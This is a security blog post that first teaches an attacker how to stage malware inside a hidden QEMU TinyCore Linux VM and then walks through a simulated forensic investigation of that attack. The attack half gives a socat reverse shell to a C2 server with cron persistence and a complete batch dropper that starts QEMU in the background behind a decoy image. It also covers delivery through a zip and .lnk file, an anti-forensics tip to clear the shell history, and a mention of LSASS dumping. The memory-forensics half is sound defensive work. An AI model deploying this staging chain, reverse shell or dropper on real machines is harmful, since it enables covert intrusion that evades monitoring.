

Using Emulated Linux Environments as an Anti-Forensics technique
Most anti-forensics techniques I encounter revolve around deletion—be it event logs, shadow copies, artifacts, or even traces like the tools and scripts used. While these methods are concerning, their impact is mitigated by centralized logging solutions like SIEM or SOAR, which store this information in real-time, allowing investigators to recover and analyze the logs.
But what about techniques that don’t rely on deletion at all? Instead, they aim to prevent the generation of logs in the first place. These methods create blind spots—elusive areas that evade detection by EDRs, SIEMs, or even manual artifact analysis.
Today, we’ll explore how virtualization, specifically using QEMU, can create such blind spots for existing solutions. This discussion will address both perspectives: how attackers can use virtualization to stage malware and how forensic investigators can detect and analyze these activities.
The Rise of Virtualization
Virtualization itself is not new. Back in 2019, users reported a qemu-system-x86_64 process consuming 100% of their CPU on Macs. This turned out to be linked to a malware campaign, "LoudMiner," which used QEMU to mine cryptocurrencies like Monero (XMRig) via cracked VST software.
Source: ESET
While LoudMiner leveraged virtualization for cryptojacking, we can extend this concept further. Imagine using a virtualized environment to perform malicious operations entirely within an emulated Linux instance, isolated from the host’s monitoring systems. After completing the operation—whether it’s data exfiltration, ransomware deployment, or targeted file manipulation—the attacker transfers the results to the host. This approach bypasses traditional detection mechanisms, creating a significant challenge for defenders.
Setting Up the Emulated Environment
To demonstrate this technique, we’ll set up a Linux image, customize it with tools and scripts, and prepare it for delivery to the victim.
Step 1: Download and Prepare Required Tools
-
Download QEMU: Visit the official QEMU website and download the desired version. For this example, we’ll use the latest version available at the time of writing (
20241124). Install it on your machine. -
Download TinyCore Linux: Obtain the ISO image of TinyCore Linux, a minimal Linux distribution, from the TinyCore Linux website.
Step 2: Emulating the Environment with QEMU
-
Create a Virtual Disk Image:
- Command:
qemu-img create -f qcow2 tc.img 500M - Explanation: This creates a 500MB virtual disk file in the QCOW2 format, which will serve as the storage for the virtual machine.
- Command:
-
Boot the TinyCore Linux ISO:
- Command:
qemu-system-x86_64.exe -cdrom ./TinyCore-current.iso -hda tc.img -boot d -m 512 - Explanation:
-cdrom: Specifies the ISO file to boot.-hda: Points to the virtual disk created earlier.-boot d: Boots from the CD-ROM.-m 512: Allocates 512MB of memory to the virtual machine.
Once the emulated environment is running, you can install necessary tools and configure services like SSH for remote control.
- Command:
-
Install Tools and Configure SSH:
-
Commands:
tce-load -wi vim: Installs thevimtext editor.tce-load -wi openssh: Installs theopensshpackage for SSH access.ssh-keygen -t rsa: Generates SSH keys.ssh-copy-id user@your-server-ip: Copies the SSH key to the specified server.
-
Explanation: These commands prepare the emulated environment for remote access, enabling attackers to control it from their C2 server.
-
Step 3: Establishing a Connection with the C2 Server
In this section we have tons of ways, literally we can go with any C2 binary like sliver, coabltstrike, havoc etc..
Or we can go something like Chisel which bridges the gap using a tunneling channel. You can read more about chisel from here and how to use it Chisel for Lateral movement
Also we can use complettely legitimate techniques like reverse SSH or socat, For testing purposes i will go with socat.
Using socat
-
On the C2 server:
socat -d -d TCP-LISTEN:4444 STDOUT
-
On the emulated environment (TinyCore):
socat TCP:<public-ip>:4444 EXEC:/bin/bash
Note
You can put this command in crontabs or using any presistence technique to run every minute to connect back to the C2 as we will be dlivering this later as intitial access.
One you have typed the command on the emualted enviornement you will recive a bash shell on your C2
This is just s aimple implementation of communication between the C2 and the emmulator but you can go wild with that as much as you want.
Step 4: Delivering the Emulated Environment
Now that the environment is ready, We need to deliver QEMU files and the tc.img that we customized, along with a PowerShell or batch file to start the emulated environment in the background.
Additionally, we want a single-click method for the victim to execute this setup. The lnk file technique is a perfect choice for this purpose.
Preparing Files
We already have the QEMU files and the tc.img.
Warning
After customizing the environment, save your changes using the built-in script filetool.sh -b.
For better OPSEC, clear the command history by deleting .ash_history in the root directory.
.bat File
@ECHO OFF
set "targetDir=%HOMEPATH%\datax\data"
if not exist "%targetDir%" mkdir "%targetDir%"
(
echo %USERNAME%
) > "%targetDir%\usercontext.txt"
explorer.exe https://forum.hestiacp.com/uploads/default/original/2X/9/9aae76309a614c85f880512d8fe7df158fec52cc.png
START /B %HOMEPATH%\datax\data\qemu.exe -drive file=%HOMEPATH%\datax\data\tc.img -fw_cfg name=opt/usercontext,file=%HOMEPATH%\datax\data\usercontext.txt -nographic &
exit
-
Explanation:
set "targetDir=%HOMEPATH%\datax\data": Defines the directory where the files will be extracted.if not exist "%targetDir%" mkdir "%targetDir%": Creates the directory if it doesn’t exist.echo %USERNAME% > "%targetDir%\usercontext.txt": Saves the username to a file for later use in SSH commands.explorer.exe <URL>: Opens a URL with an error message hosted on public server.START /B %HOMEPATH%\datax\data\qemu.exe: Starts QEMU in the background, running the emulated environment.-drive file=<path>: Specifies the virtual disk to load.-fw_cfg: Adds custom firmware configuration to pass data between the emulated environment and the host.-nographic: Will run the emulation in the background.
Info
In our case it will pass whatever in usercontext.txt and share it with the emulated enviornemnet under /sys/firmware/qemu_fw_cfg/by_name/opt/usercontext/raw and we stored the username of the host there, so a command like ssh $(sudo cat /sys/firmware/qemu_fw_cfg/by_name/opt/usercontext/raw)@10.0.2.2 will connect us to the host.
Note
10.0.2.2 is the default IP that qemu assigns for the host machine, Take a look at some of the interesting driver-level functionality unique to QEMU. This would be present across any Linux distro, not just TinyCore: Qemu Documentation for Networking
You can also enhance the script by employing techniques to extract the host machine's password, such as dumping LSASS, retrieving stored credentials, or brute-forcing the password later. These techniques are not detailed here as this totally another topic.
.lnk File
The .lnk file simplifies execution for the victim by bundling the setup into a single click.
-
File Placement:
- Place
qemu.exe,tc.img, andstart.batin the same directory. - Zip the directory for delivery.
Info
Zip this directory and deliver it to the victim, along with an
.lnkfile, via email or another delivery method. Refer to my blog for common delivery techniques attackers use: Understanding Threat Actors. - Place
-
Purpose of the .lnk File:
- Extracts the contents of the zip file to the
dataxdirectory. - Executes the
start.batfile to launch the emulation in the background because of the-nographicoption.
- Extracts the contents of the zip file to the
Now we have everything in place which it will all starts when the victim clicks on the .lnk file.
Running lnk on the victim machine
Implications for DFIR
Note
The investigation was approached as a real-world incident, beginning with a SIEM alert and following a thorough analysis process. We also used sliver C2 for the communication between the emulated enviornement and the attacker.
Background
The SOC team has flagged unusual activity on a workstation assigned to Khalid Allam, a marketing specialist at the enterprise. The alert was triggered by the download of a 150 MG file attached to an email, a behavior atypical for Khalid's role, which generally involves working with online collaboration tools rather than large local downloads. While no immediate suspicious activity was observed after the download, the incident has raised concerns due to the potential for hidden malicious intent. As part of the incident response process, you have been provided with a memory dump and a triage image of Khalid's machine to investigate further. Your task is to determine if any malicious artifacts, unauthorized activity, or signs of compromise are present, ensuring the environment's security remains intact.
Investigation
Initial Investigation
The investigation was initiated by examining common directories such as Desktop, Downloads, Temp, and Documents. This analysis was conducted by parsing the MFT attribute to retrieve the entry numbers for each folder, enabling filtering for specific content.
Analysis of Suspicious Downloads
In the Downloads folder, a 150MB zip file was identified, accompanied by a link file created simultaneously and bearing the same name. Since this discovery matched the alert criteria, the investigation timeline was established at this point.
The download of the zip and lnk files was recorded at 2024-11-28 11:59:02 UTC. The timing of the link file's execution was then investigated to determine subsequent actions. Due to the nature of the .lnk file, the exact execution time could not be located in the recentdocs or the lnk files under Roaming\Microsoft\Windows\Recent. The userassist registry keys were examined to check if it got executed as a process not a file, revealing the file’s last execution time as 2024-11-28 12:01:35 UTC.
An attempt was made to extract the content of the link file from the MFT; however, the file was not found. This absence was attributed to the size of the link file exceeding 1KB.
Info
The $MFT attribute file only retains actual file data if the size is 745 bytes or smaller (resident data). For files larger than 745B, the data becomes non-resident and is not stored in the MFT itself, though data runs to the file’s location are recorded.
Prefetch files were parsed for processes executed around the identified time to analyze activities following the link file’s activation.
It was discovered that Powershell.exe and Conhost.exe were executed at the exact time of the link file activation. Additionally, other processes, including edge, qemu, and whoami, were executed shortly afterward.
Attention was first directed toward powershell.exe to determine if the link file contained embedded PowerShell commands. Using the timeline, PowerShell commands executed at the corresponding time were located.
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -windowstyle hidden -c Expand-Archive -Path $home\downloads\'OneAmerica Survey.zip' -DestinationPath $home\datax; Invoke-Command {cmd.exe /c $home\datax\data\start.bat}
Info
The command extracted the contents of the zip file to C:\Users\<username>\datax\ and subsequently executed a batch script named start.bat.
The entry number of the datax folder was retrieved to examine its contents. Within the datax folder, a subfolder named data was found, containing multiple files. These files included qemu and its dependencies: start.bat, tc.img, and a file named usercontext.txt.
Info
QEMU is an open-source emulator and virtualization tool used to run virtual machines or simulate hardware architectures. The tc.img file is likely a disk image for Tiny Core Linux, a minimal Linux distribution often used in lightweight virtual environments.
Efforts were made to determine the content of start.bat and usercontext.txt and to recover both files. The size of start.bat was noted as 580 bytes, and usercontext.txt was identified as 7 bytes. A hex editor was utilized, and the MFT attribute was analyzed by searching for the file names.

@ECHO OFF
REM Define the target directory and ensure it exists
set "targetDir=%HOMEPATH%\datax\data"
if not exist "%targetDir%" mkdir "%targetDir%"
REM Create and write user context information to usercontext.txt
(
echo %USERNAME%
) > "%targetDir%\usercontext.txt"
explorer.exe https://forum.hestiacp.com/uploads/default/original/2X/9/9aae76309a614c85f880512d8fe7df158fec52cc.png
START /B %HOMEPATH%\datax\data\qemu.exe -drive file=%HOMEPATH%\datax\data\tc.img -fw_cfg name=opt/usercontext,file=%HOMEPATH%\datax\data\usercontext.txt -nographic &
exit
-
Explanation:
- The directory
%HOMEPATH%\datax\datawas defined and created if it did not exist. - The username of the machine was saved in a file named
usercontext.txt. - A URL was opened in the browser, displaying an error message hosted on a public server
QEMUwas started in the background to run an emulated environment, loading the virtual disktc.img.- Custom firmware configuration was added to allow the emulated environment to access
usercontext.txtfrom the host. - The emulation was run in the background, making it invisible to the user except for the displayed error message.
- The directory
The content of usercontext.txt was also recovered and found to store the username a1l4m, confirming the username of the machine.
Next, the browser history was examined to verify whether the error message had been displayed to the user. This was achieved by analyzing the History database located in C:\Users\a1l4m\AppData\Local\Microsoft\Edge\User Data\Default. The URL was confirmed to have been accessed at 2024-11-28 12:03:10 UTC.
It was observed that the attacker proceeded with activities within the emulated environment after QEMU started at 2024-11-28 12:03:08 UTC. Processes such as cmd, SSHD, and whoami were identified for further investigation. It was hypothesized that all these actions were conducted within the emulated environment created on the workstation.
Note
Due to the nature of QEMU, it was determined that no logs would be available for actions taken within the emulated environment. All activities occur in memory and are cleared upon shutdown of the emulation. Consequently, the next phase of the investigation focuses on memory forensics.
Memory Analysis
The investigation began by examining the memory for processes to locate qemu.exe and verify whether the findings from the prefetch matched the data in memory.
└──╼ #vol -f WIN-NP10IHJMV3O-20241128-121124.raw windows.pstree
PID PPID ImageFileName Offset(V) Threads Handles SessionId Wow64 CreateTime ExitTime
................................
................................
4976 5988 qemu.exe 0xdc8dd2b25300 6 - 1 False 2024-11-28 12:03:08.000000 N/A
The process qemu.exe was identified with PID 4976. Its parent process was missing, likely due to termination. The creation time matched the prefetch data, confirming the findings.
The cmdline plugin was utilized, and the same commands observed earlier in the batch file and PowerShell history were retrieved.
└──╼ #vol -f WIN-NP10IHJMV3O-20241128-121124.raw windows.cmdline
PID Process Args
................................
................................
4752 msedge.exe "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --single-argument https://forum.hestiacp.com/uploads/default/original/2X/9/9aae76309a614c85f880512d8fe7df158fec52cc.png
4976 qemu.exe \Users\a1l4m\datax\data\qemu.exe -drive file=\Users\a1l4m\datax\data\tc.img -fw_cfg name=opt/usercontext,file=\Users\a1l4m\datax\data\usercontext.txt -nographic
................................
................................
Network Connections and Backdoor Identification
The attacker’s method of controlling the emulated environment from outside the network was then investigated using the netscan plugin.
└──╼ #vol -f WIN-NP10IHJMV3O-20241128-121124.raw windows.netscan
Offset Proto LocalAddr LocalPort ForeignAddr ForeignPort State PID Owner Created
................................
................................
0xdc8dd63f8010 TCPv4 192.168.2.128 49750 3.69.168.214 8888 ESTABLISHED 4976 qemu.exe 2024-11-28 12:03:54.000000
................................
0xdc8dd25dca60 TCPv4 127.0.0.1 49759 127.0.0.1 22 ESTABLISHED 4976 qemu.exe 2024-11-28 12:06:32.000000
................................
0xdc8dd2db1b60 TCPv4 127.0.0.1 22 127.0.0.1 49759 ESTABLISHED 5656 sshd.exe 2024-11-28 12:06:32.000000
A connection from qemu.exe to the IP address 3.69.168.214 on port 8888 was identified. This connection likely indicates a backdoor planted on the custom image by the attacker to execute upon startup of the image.
Customization of the QEMU Image
The scope was narrowed further by dumping the qemu.exe process using the memmap plugin.
└──╼ #vol -f WIN-NP10IHJMV3O-20241128-121124.raw -o . windows.memmap --dump --pid 4976
................................
0xf8054b1de000 0x72cd1000 0x1000 0x1b816000 pid.4976.dmp
The dumped process was filtered for the IP address, revealing the complete URL used for the connection.
└──╼ #strings pid.4976.dmp | grep -i '3.69.168.214'
mtls://3.69.168.214:8888mtls://3.69.168.214:8888
mtls://3.69.168.214:8888060102150405Z0700
3.69.168.214:8888
mtls://3.69.168.214:8888XXX_InternalExtensions
A quick search was conducted to identify whether the attacker was utilizing a public C2 framework.
The search confirmed that the attacker employed Sliver C2.
The memory analysis was continued using common keywords such as .ash_history, http://, and wget. The following results were obtained:
└──╼ #strings pid.4976.dmp | grep -i 'http://'
................................
wget http://3.69.168.214/LESSER_VISCOSE
wget http://3.69.168.214/LESSER_VISCOSE
http://
A file named LESSER_VISCOSE was identified as having been downloaded. Filtering further for LESSER_VISCOSE revealed the following:
└──╼ #strings pid.4976.dmp | grep -i 'LESSER_VISCOSE'
................................
wget http://3.69.168.214/LESSER_VISCOSE
chmod +x LESSER_VISCOSE
mv LESSER_VISCOSE lnit
wget http://3.69.168.214/LESSER_VISCOSE
chmod +x LESSER_VISCOSE
mv LESSER_VISCOSE lnit
LESSER_VISCOSE
It appeared that during the setup of the attacker’s custom image, commands had been left in the .ash_history file. These commands indicated that LESSER_VISCOSE was downloaded, renamed to lnit (a name similar to init), and made executable. This file was likely the binary for the Sliver C2 framework.
Further exploration of strings surrounding LESSER_VISCOSE revealed commands from .ash_history:
└──╼ #strings pid.4976.dmp | grep -i 'LESSER_VISCOSE' -C10
................................
filetool.sh -b
cd /
cat nohup.out
sudo cat nohup.out
history
cd /home
cd tc/
wget http://3.69.168.214/LESSER_VISCOSE
chmod +x LESSER_VISCOSE
mv LESSER_VISCOSE lnit
sudo nano /opt/bootlocal.sh
filetool.sh -b
[10.0.2.2]:2222 ssh-rsa
It was observed that the attacker used nano to edit /opt/bootlocal.sh, indicating that the C2 binary was configured to execute on boot. This matched the timeline, as the connection to the C2 was initiated at 2024-11-28 12:03:54 UTC when QEMU started.
└──╼ #vol -f WIN-NP10IHJMV3O-20241128-121124.raw windows.netscan
Offset Proto LocalAddr LocalPort ForeignAddr ForeignPort State PID Owner Created
................................
................................
0xdc8dd63f8010 TCPv4 192.168.2.128 49750 3.69.168.214 8888 ESTABLISHED 4976 qemu.exe 2024-11-28 12:03:54.000000
Info
The command filetool.sh -b was identified as part of the Tiny Core Linux image, used for saving the state of the image after rebooting. This supports the hypothesis that the commands found were written during the customization of the image, not during the attack.
Using the Emulated Environment to connect to the host
Further investigation focused on the shared folder usercontext created by the attacker when booting the image:
└──╼ #strings pid.4976.dmp | grep 'usercontext'
................................
................................
alias get-host-shell="ssh $(sudo cat /sys/firmware/qemu_fw_cfg/by_name/opt/usercontext/raw)@10.0.2.2"
alias get-host-user="echo $(sudo cat /sys/firmware/qemu_fw_cfg/by_name/opt/usercontext/raw)"
................................
bash-5.2# cat /sys/firmware/qemu_fw_cfg/by_name/opt/usercontext/raw
It was found that the attacker used these commands to extract the username of the host machine and share it within the emulated environment. This username was later used to attempt SSH access into the host machine using a command such as sudo ssh a1l4m@10.0.2.2. According to QEMU documentation, 10.0.2.2 is the default IP address of the host.
The success of this SSH command was verified using the netscan plugin:
└──╼ #vol -f WIN-NP10IHJMV3O-20241128-121124.raw windows.netscan
Offset Proto LocalAddr LocalPort ForeignAddr ForeignPort State PID Owner Created
................................
................................
0xdc8dd25dca60 TCPv4 127.0.0.1 49759 127.0.0.1 22 ESTABLISHED 4976 qemu.exe 2024-11-28 12:06:32.000000
................................
0xdc8dd2db1b60 TCPv4 127.0.0.1 22 127.0.0.1 49759 ESTABLISHED 5656 sshd.exe 2024-11-28 12:06:32.000000
An SSH connection was established between the emulated environment (qemu.exe) and the host machine (sshd.exe) at 2024-11-28 12:06:32 UTC. The use of a loopback IP (127.0.0.1) ensured that this connection was not flagged as malicious by network monitoring tools.
Note
127.0.0.1:49759 -> 127.0.0.1:22: The client (qemu.exe) uses source port 49759 to connect to the SSH daemon (sshd.exe) on port 22.
-
Each line represents one end of the same TCP connection:
- The first entry represents the client (qemu.exe) initiating the connection.
- The second entry represents the server (sshd.exe) responding to the client.
This confirmed that SSH communication was successfully established between the emulated environment and the host machine. Additional leads, such as the existence of whoami in the prefetch files, were also followed for further analysis.
To determine the commands executed within the SSH shell, filtering was conducted for whoami. The following results were retrieved:
└──╼ #strings pid.4976.dmp | grep -i "whoami" -A8
whoami
systeminfo
hfkjh
cd De
echo "Khaled
a1l4m was here" > pwned.tt
It was observed that after executing whoami, the attacker issued multiple commands, including systeminfo. A file named pwned.tt was created with the content Khaled a1l4m was here, likely as a marker or note of compromise.
To ensure accuracy, the triage image was revisited to validate certain findings, such as the SSH connection. The successful connection was confirmed, as shown below:
Timeline Breakdown
Using all the information provided, the following timeline of the attack has been constructed:
| Timestamp (UTC) | Source | Event |
|---|---|---|
| 2024-11-28 11:59:02 | USN journal | Zip file and link file downloaded. |
| 2024-11-28 12:01:35 | UserAssist keys | Link file (lnk) executed, starting malicious activity. |
| 2024-11-28 12:03:08 | Prefetch file | Powershell.exe and Conhost.exe executed, starting command execution. |
| 2024-11-28 12:03:10 | Browser history | Error message URL opened in the browser (msedge.exe). |
| 2024-11-28 12:03:54 | Network scan (netscan) | QEMU establishes connection to 3.69.168.214:8888, indicating C2 communication begins. |
| 2024-11-28 12:06:32 | Network scan (netscan) | SSH connection established between the emulated environment (qemu.exe) and host (sshd.exe). |
| 2024-11-28 12:06:32 | SSH commands | Commands executed: whoami, systeminfo, and creation of pwned.tt file on host. |
Additional Insights:
- Custom QEMU Image Configuration:
- During the setup of the image, commands were added to download the Sliver C2 binary (
LESSER_VISCOSE), renamed tolnit, and set as executable. -
The binary was configured to execute on boot through modifications to
/opt/bootlocal.sh. -
Host Compromise Evidence:
- SSH credentials were retrieved from
usercontext.txt, and the default IP (10.0.2.2) was used to establish SSH communication with the host. - Indicators of compromise include a backdoor connection (
3.69.168.214:8888) and executed commands (whoami,systeminfo).
Observations:
- The attacker utilized loopback (
127.0.0.1) for SSH communication, ensuring stealth by avoiding external detection. - All activities in the emulated environment occurred in memory, reinforcing the need for advanced memory forensics.
Conclusion
In this investigation, a thorough forensic analysis was conducted to uncover the attacker's activities, methods, and tools used to compromise the workstation. The findings revealed the sophisticated use of a custom QEMU emulated environment to execute malicious activities while evading host-based detection. Key discoveries include the use of the Sliver C2 framework, SSH tunneling through loopback IP for stealth, and persistence mechanisms embedded in the QEMU image.
The attacker demonstrated an advanced understanding of system architecture by leveraging memory-only operations and creating an isolated virtual environment for command execution. Evidence of reconnaissance, backdoor installation, and markers left on the host was uncovered through detailed memory forensics, timeline analysis, and artifact recovery.
This investigation highlights the importance of incorporating advanced detection tools and processes, such as memory forensics, network traffic analysis, and host activity monitoring, to counteract sophisticated adversaries. The report's findings serve as a foundation for improving security measures and ensuring robust incident response capabilities.